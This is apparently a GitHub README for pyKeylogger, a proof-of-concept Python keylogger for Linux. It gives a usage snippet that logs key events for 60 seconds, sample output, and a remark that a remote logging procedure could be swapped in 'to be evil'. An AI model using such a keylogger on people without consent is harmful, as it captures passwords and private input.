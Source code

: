 # pyKeylogger
PyKeylogger is a proof of concept of a pure-python keylogger for linux.  It uses Xlib (so you must have an X connection!) to monitor the state of the keyboard.  Here's how you use it:

```python
import keylogger
import time

now = time.time()
done = lambda: time.time() > now + 60
def print_keys(t, modifiers, keys): print "%.2f   %r   %r" % (t, keys, modifiers)

keylogger.log(done, print_keys)
```

This will print key events to stdout for 60 seconds.  If you wanted to be evil, instead of passing in a print callback, you could pass in a remote logging precedure.

Sample output:


    1314238675.42   'o'   {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False}
    1314238675.51   'm'   {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False}
    1314238675.65   'g'   {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False}
